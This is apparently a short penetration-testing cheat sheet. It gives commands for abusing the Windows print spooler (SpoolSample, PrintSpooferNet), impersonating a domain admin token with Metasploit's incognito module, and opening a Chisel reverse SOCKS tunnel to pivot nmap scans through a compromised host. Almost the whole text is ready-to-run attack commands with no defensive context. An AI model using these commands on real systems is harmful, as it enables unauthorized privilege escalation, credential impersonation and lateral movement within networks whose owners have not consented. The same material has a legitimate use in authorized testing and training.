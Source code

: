 # Windows Credential

## SpoolSV Exploitation
```powershell
SpoolSample.exe [Host Machine] [Target Pipe] <appsrv01\test>
PrintSpooferNet.exe [Target Pipe] <\\.\pipe\test\pipe\spoolss>
```
## Metasploit
```powershell
#Inside Metasploit 
load incognito
list_tokens -u
impersonate_token corp1\\admin
getuid
```

# Network 

## Chisel Tunnel
```bash
#Server Side
./chisel server -p 8001 --reverse

#Client Side
./chisel client [Server IP Address]:8001 R:1080:socks

#Server Side
proxychains4 nmap [IP Address]
```
